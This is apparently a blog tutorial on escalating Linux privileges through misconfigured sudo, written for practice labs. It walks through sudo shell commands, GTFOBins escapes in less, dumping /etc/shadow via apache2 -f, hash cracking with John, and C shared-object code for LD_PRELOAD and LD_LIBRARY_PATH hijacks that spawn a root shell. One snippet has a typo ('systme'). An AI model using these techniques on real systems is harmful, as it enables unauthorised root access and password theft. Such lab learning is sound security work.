

---
title: "Escalating Privileges with Sudo"
date: 2023-05-15T19:23:31+03:00
menu:
  sidebar:
    name: Sudo Exploitation
    identifier: sudo_exploitation
    parent: linux
    weight: 10

draft: false
---


Sudo is a powerful command in Linux that allows users to run commands with elevated privileges. When properly configured, sudo can help ensure system security by enabling users to perform only authorised tasks and preventing unauthorised changes to system files. However, if not configured correctly, sudo can be exploited to escalate privileges and gain access to sensitive system files. In this article, we'll take a deep dive into sudo and explore some common privilege escalation techniques that attackers can use to exploit sudo.

### Key points.

-  Sudo is a program that allows users to run other programs with security privileges, even with other users.
-  A user generally has to enter the password of their own user account in order to run a command using sudo.
-  The user must be granted access in the /etc/sudoers file.
-  Permissions can vary; for example, users can be limited to running only certain programs, or they can be allowed to run commands without entering a password.

To get your hands on a keyboard, you can either use this lab https://github.com/sagishahar/lpeworkshop or this https://tryhackme.com/room/linuxprivesc

Here are some different methods of privilege escalation using sudo.

## Method 1.

### Known Password.

If a user is permitted to run sudo for every command (unrestricted) and has the user's password, privilege escalation is easy - they can simply run `sudo su` and provide the password.
Example. 


If the user does not have permission to run every program, including su, then the technique mentioned earlier won't work. Example


If `su` is not allowed, there are other ways to escalate privileges using sudo. Some examples include:
```

sudo /bin/bash
sudo passwd 
sudo -i
sudo -s
```
To learn more about sudo, you can run `man sudo` on a Linux machine. If the above techniques fail, check the next step.

## Method 2.

### Shell Escape Sequences.
In Linux, shell escape sequences are sequences of characters that are recognised by the shell (such as bash) and are used to perform various actions, including executing commands or running programs.

Shell escape sequences can be used to bypass restrictions or to perform actions that are not typically allowed within the current context of the shell. For example, if a user is not authorised to run a particular command, they might be able to use a shell escape sequence to execute the command anyway.

 If certain programs are not allowed to be run via sudo, it is still possible to escape the program and spawn a shell. To achieve this, follow the steps below:
 
- Run `sudo -l` to list all the programs a user can run via sudo.
- From the output, check each program in the list to see if there is a shell escape sequence on <a href="https://gtfobins.github.io/" target="_blank">GTFOBins</a>.
- If an escape sequence exists, follow the given instructions to spawn a shell.

Let's see how this works using our lab.

#### Step 1.
-  Run `sudo -l` to see the results.

- From the above results, we can see that a user may run different programs on this host, such as `iftop`, `find`, `nano`, `vim`, `man`, `awk`, `less`, `ftp`, `nmap`, `apache2`, and more via sudo

#### Step 2.
Let's see which commands have escape sequences on the <a href="https://gtfobins.github.io/" target="_blank">GTFOBins</a> website. 

In this blog, I am going to use the `less` program, but you can try to see if other programs have escape sequences as well.

- To check if there is an escape sequence for the `less` program, go to the <a href="https://gtfobins.github.io/" target="_blank">GTFOBins</a> website and search for `less` in the search box.

- The results show that we do have an escape sequence for our program

#### Step 3.

- To proceed, click on the "Sudo" option (the first option on the right).

As we can see, here is our escape sequence to get a shell for less program.
```

sudo less /etc/profile
! /bin/sh 

or

sudo less /etc/profile
! /bin/bash 

```

#### Step 4.
Let's go back to our lab and run the command `sudo less /etc/profile`


After running the above command. Insert `! /bin/bash` and press enter. 

- As you can see from the above output, we have successfully escalated our privileges.

Take some time to go through the other programs we found earlier and try to escalate privileges. If a program does not have an escape sequence, we can still try to use it to escalate our privileges using the below explained methods.

## Method 3. 

### Abusing Intended Functionality

As the name suggests, we are abusing the intended functionality to escalate our privileges. We only resort to this method after finding out that a program that can be run via sudo has no escape sequence.

- If we can read or write files owned by root, we may be able to retrieve information such as passwords and hashes that will help us access root privileges, or insert/modify information in that file.

#### Step 1.

Run this command (`sudo -l`)
We tried to find escape sequences for the programs on the list we generated on the <a href="https://gtfobins.github.io/" target="_blank">GTFOBins</a> website. We were successful in finding escape sequences for the majority of them, except for `apache2`.

Apache2 has no known escape sequence.

#### Step 2.
Let's use apache2 as it is intended, if you run `man apache2` the interesting option is -f 


#### Step 3.

Running the apache2 command with `-f option`  when parsing a config file it will error and print any line it doesn't understand.  
Example Run `sudo apache2 -f /etc/passwd` 

- We can see from the output, the command returned error but with some results in the /etc/passwd file. 
- To understand this more, try different config files and see the results returned. 

#### Step 4
Since passwords are stored in `/etc/shadow`, let's try to use apache2 on this file.
`sudo apache2 -f /etc/shadow`

- As expected, the command threw synstax error on line 1 of /etc/shadow and printed back the line which in this case it is a password hash. 
- Save the password hash to the file (eg. passwd.txt)


#### Step 5.
- Use your favourite tool to crack the hash using a wordlist. Example John the Ripper. 
`john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyour.txt password.txt`

- From the output, the password is `password123`

#### Step 6
Switch to root.
- Use the password from the above step to switch user `su` to root. 

- From the above results, we have successfully escalate out privileges.

## Method 4

### Environment Variables

Environment variables are variables that are set in the operating system's environment and are accessible to all programs and hold system information that can guide their behaviour.
Example $PATH, $HOME, $USER.

Programs that run through sudo can inherit the user's environment variables.
The most common environment variable that can be exploited to escalate privileges are
- LD_PRELOAD
- LD_LIBRARY_PATH

The above environment variables can only help us escalate privileges when the `env_keep` option is set in the `/etc/sudoers` configuration file to either of the above environment variables. `env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH` 

To see if the `env_keep` option is set to the environment variables mentioned above, use `sudo -l`. Alternatively, if you have sudo password, you can run `sudo cat /etc/sudoers`.


- From our lab, the above output shows that the `env_keep` option is set to `LD_PRELOAD` and `LD_LIBRARY_PATH`.

### LD_PRELOAD.

LD_PRELOAD is an environmental variable in Linux that allows users to specify one or more shared libraries to preload before any other shared library. By setting the LD_PRELOAD variable, users can override specific functions in a program, without modifying the original program's source code or binary. LD_PRELOAD is commonly used for debugging, profiling, or adding new functionality to existing programs.

To use this environment variable to escalate our privileges, `the real user ID must be the same as the effective user ID.`

#### Step 1. 

Create a function using c programming language that will spawn a shell with root privileges when run.
```

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh"); 
}
```
You can change `/bin/sh` to `/bin/bash`.
- Save the above file with .c extension

#### step 2.
- Compile the code with this command `gcc -fPIC -shared -nostartfiles -o shell.so shell.c` 


#### Step 3.
Run `sudo LD_PRELOAD=/path/filename.so {any allowed program using sudo}`
- `/path/filename.so`  Specify the path were the .so file is.
- `{allowed program using sudo`} Run sudo -l to see programs that can be run via sudo

In our lab let's use `less` program.

`sudo LD_PRELOAD=/tmp/shell.so less`

- From the above results, we have escalated our privileges using less program.

#### Step 4.
Since all other commands that can run via sudo in our lab has escape sequences except apache2, let's exploit apache2 using the above method of escalating privileges using LD_PRELOAD.

Run `sudo LD_PRELOAD=/tmp/shell.so apache2`


- From the above output, we have successfully escalated our privileges to root. 
- This method comes in handy when the program has no escape sequence.


### LD_LIBRARY_PATH

LD_LIBRARY_PATH is an environmental variable in Linux that specifies a list of directories where the system should look for shared libraries when a program is run. The shared libraries are typically files that contain code used by multiple programs on the system. By default, the system searches for shared libraries in a set of standard directories, but users can use the LD_LIBRARY_PATH variable to add additional directories to the search path.

To list shared libraries used by a program, use the command `ldd` with the path of the program

#### Step 1. 
- List all programs that can be run via sudo (`sudo -l`)


#### Sep 2. 
- Choose a program that you want to use. Example on my side I will use `less`
- List libraries of the command you chose. e.g `ldd /usr/bin/less`

- The results above show the libraries for `less `program. 

#### Step 3. 
- Choose the library to hijack from the list libraries in the above step. You can choose any library. Example let's choose `libdl.so.2`

#### Step 4. 
- Create a function using c programming language that will hijack our program to spawn a shell.
```

#include <stdio.h>
#include <stdlib.h>

static void shell() __attribute__((constructor));

void shell(){
	unsetenv("LD_LIBRARY_PATH");
	setgid(0);
	setuid(0);
	systme("/bin/bash");
}
```
- Save file with .c extension with the above contents. 

- I saved my file as shell.c

#### Step 5.
- Compile the above file into the name of the library we chose in step 3 which is `libdl.so.2` by running the following command
`gcc -fPIC -shared -o libdl.so.2 shell.c`
(change shell.c to the name of your file, and libdl.so.2 to the name of your selected library)

#### Step 6. 
Run the program you chose on step 2 via sudo while setting `LP_LIBRARY_PATH` environment variable to the path where we compiled our .c file.
On my lab
`sudo LD_LIBRARY_PATH=/home/user less`

- From the above output, we have successfully escalated our privileges. 


In conclusion, there are several ways to escalate privileges using the sudo command, which can potentially expose your system to security risks. It is important to be aware of these techniques and take steps to mitigate them. 


